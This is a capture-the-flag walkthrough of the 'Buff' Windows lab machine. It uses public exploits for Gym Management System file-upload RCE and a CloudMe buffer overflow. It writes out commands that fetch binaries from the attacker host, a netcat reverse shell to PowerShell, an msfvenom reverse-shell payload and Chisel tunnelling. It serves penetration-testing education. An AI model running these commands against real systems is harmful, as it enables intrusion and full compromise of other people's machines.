# Buff-Walkthrough


Buff is an easy difficulty Windows machine that features an instance of Gym Management System 1.0. This is found to suffer from an unauthenticated remote code execution vulnerability. Enumeration of the internal network reveals a service running at port 8888. The installation file for this service can be found on disk, allowing us to debug it locally. We can perform port forwarding in order to make the service available and exploit it.

## Attack Summary:
- Web application enumeration revealed Gym Management System 1.0
- Exploited unauthenticated file upload RCE for initial access
- Stabilized shell using netcat
- Identified internal CloudMe service via local enumeration
- Used Chisel for local port forwarding
- Exploited CloudMe buffer overflow to gain Administrator access

## Lessons Learned:
- Web exploitation through vulnerable file upload and RCE
- Tunneling and port forwarding to access internal-only services
- Binary exploitation via buffer overflow to achieve privilege escalation

# Initial Setup

To begin we will add the IP address we are given to our `/etc/hosts` file so we don’t have to memorize the IP and can reference the host by name. In the case we will use `buff.htb`.

```bash
sudo mousepad /etc/hosts
```



# Enumeration

As always, we begin with an Nmap scan to identify exposed services and confirm the attack surface before interacting with the application.

```bash
sudo nmap -Pn -A -T4 buff.htb -oA initial.buff
```

## nmap



This box seems fairly straightforward. As we know this is a Windows machine, with only one port open, that being `8080`. Let's navigate to this port in our browser to see if we can find anything of interest.

## Port 8080 - 



We see that we land on what seems to be some sort of fitness web application. Let's perform directory enumeration with feroxbuster to see what we can discover.
### feroxbuster

```bash
feroxbuster -u http://buff.htb
```



From our scan results we have identified multiple endpoints of interest, so we can begin checking them out to see what kind of information we can find.

## Buff.htb application

With a little bit of navigation within the application we find that it was created using the "Gym Management Software 1.0"



With a simple Google search of "Gym Management Software 1.0" we found an entry on exploitDB that allows Remote Code Execution via an unauthenticated file upload vulnerability.



Remembering back to our recent directory enumeration scan we did identify an upload.php endpoint for the website. Now we'll head over to the terminal and run a searchsploit to grab this exact script from ExploitDB:

```bash
searchsploit gym management system
```



After running the above syntax we find multiple scripts for this software, but we know by reading the through these we are looking for an unauthenticated vulnerability. Run the following command to grab the Unauthenticated Remote Code Execution script and save it to our working directory:

```bash
searchsploit -m php/webapps/48506.py
```

Now time to figure out the requirements to use this script. Normally with an RCE script dealing with an web application, you just supply the URL of the target at the end your syntax. We will check just to make sure, so lets go ahead and run our script.



After a bit of trial and error I got the following output to show. I originally ran this with python3 and it did not work, so I went back in to possibly edit the script and realized what was right in front of me..... 



The script was written using python2. One of the biggest things we all will learn when pentesting is how to properly debug scripts we find to use.

Now let's get back to it.

```bash
python2 48506.py http://buff.htb:8080
```



Looks like we have to be more specific. I mention learning to debug scripts. Sometimes the answers are already in front of you and carefully reading through more than once and or taking a step away (a break) helps us realize that. All we have to do in this situation is add a backslash and we are good.

```bash
python2 48506.py http://buff.htb:8080/
```



And boom! We have ourselves a shell. Now let's make sure we grab our flag and try to enumerate through our box and figure out what our privesc path might be.



```PowerShell
type C:\Users\Shaun\Desktop\user.txt
```

As we can see we have very limited function on this box so it would be best to figure out a way to get that functionality we need, so that navigation and enumeration in our exploited session is smoother. We can try and see if the system has netcat, so we can just connect our session back to us.

For transparency I first tried to see if the machine had the nc.exe binary installed (it didn't). The next best option is to try and serve it up to ourselves with a python server. First we have to locate where the nc.exe (Windows netcat binary) is, then we can start up our server and host it for grabs.

```bash
locate nc.exe
```
```bash
cp /usr/share/windows-resouces/binaries/nc.exe
```
```bash
python -m http.server
```



Alright, so just a quick recap... 
1.) We located the `nc.exe` binary.

2.) We copied it to our current working directory.

3.) We have started our http server, which serves all the files in our current working directory hosting them up for grabs.

Heading back over to our exploited windows session we can run `curl/curl.exe` to go ahead and download the `nc.exe` binary to the machine.

```powershell
curl.exe http://10.10.15.203:8000/nc.exe -o nc.exe
```



It will be hard to tell whether it was successful or not right away because of our limited functionality. You can get a general idea if your http server gives a 200 response code.

Next we can go ahead and stop our python server with Ctl+C and then start a net cat listener in same tab.

```bash
nc -nvlp 4444
```

After you do that, go back to your exploited session and connect back to your netcat listener with the `nc.exe` binary we downloaded to the machine.

```powershell
nc.exe 10.10.15.203 4444 -e powershell
```

Upon successful connection this will connect back to our attacker machine executing a PowerShell session from the target machine.



Success! Now we are good to start back with enumeration. For this next part to ease the manual I am going to go back to serving up files, but this time with winPEAS (Windows Privilege Escalation Awesome Script).

```bash
cp /opt/winpeas/winPEASx64 ofs.exe
python -m http.server
```

Tab back over to our PowerShell session and grab the binary with `curl`. Reminder to replace the IP with your IP.

```powershell
curl.exe http://10.10.15.203:8000/winPEASx64 ofs.exe -o winpeas.exe
```

Ensure the binary was successfully downloaded.

```powershell
dir
```



Execute the script to automate our recon/enumeration on this machine.

```powershell
.\winpeas.exe
```




The winPEAS output revealed a CloudMe service listening on port 8888. Based on the machine description and prior knowledge of Buff, this service is the intended privilege escalation vector. With a quick search using searchsploit we quickly find a buffer overflow for CloudMe, which we will need to modify.

```bash
searchsploit CloudMe
```



```bash
searchsploit -m /windows/remote/48389.py
```

This will copy over a file to our current working directory that we will have to modify. Let's check it out

```bash
gedit 48389.py
```



We will need to utilize `msfvenom` in order to generate a proper payload to use. One that allows us to connect back to a netcat listener.

```bash
msfvenom -a x86 -p windows/shell reverse tcp LHOST=10.10.15.203 LPORT=9000 EXITFUNC=thread -b '\x00\x0A\X0D' -f python -v payload
```

Once our payload generates we will need to copy the output from msfvenom, open our exploit file - `48389.py`, and delete the old payload, replacing it with the new.



Save the file, now it's time to setup our tunnel, so that we can communicate with port 8888 locally on our attack machine. We will use Chisel. If you don't have the tool you can find it [here](https://github.com/jpillora/chisel/releases/tag/v1.11.3).

## Chisel Download
Once you are on the GitHub you will want to download the amd64 version. 
*Note: If you are following along the version might change. Just ensure it's amd64.*



```bash
mv ~/Downloads/chisel 1.11.3 windows amd64.zip .
unzip chisel 1.11.3 windows amd64.zip
python -m http.server
```

At this point we will need to re-run the Unauthenticated RCE File Upload in a new tab, so we can download chisel to the machine and not break our other session we already have.

```bash
python2 48506.py http://buff.htb:8080/
```

Once the new session is established we need to download Chisel:

```cmd
curl 10.10.15.203:8000/chisel.exe -o chisel.exe
```



## Chisel Setup

 Time to set Chisel up. First to we have to start the Chisel server in our Bash terminal:
 
```bash
chisel server -p 2222 --reverse
```

Head over to our PowerShell session to set up the Chisel Client:

```PowerShell
.\chisel.exe client 10.10.15.203:2222 R:8888:127.0.0.1:8888
```



Set up our netcat listener on port 9000:

```bash
nc -nvlp 9000
```

In a new terminal run the exploit file that we generated:

```bash
python3 48389.py
```



Switch back to our netcat listener on port 9000 and we should now have spawned a shell as the Administrator.



Buffer Overflow successful! Last piece of the puzzle.. grab root.txt

```PowerShell
type C:\Users\Administrator\Desktop\root.txt
```



This machine was a great example of chaining web exploitation, tunneling, and binary exploitation to achieve full system compromise.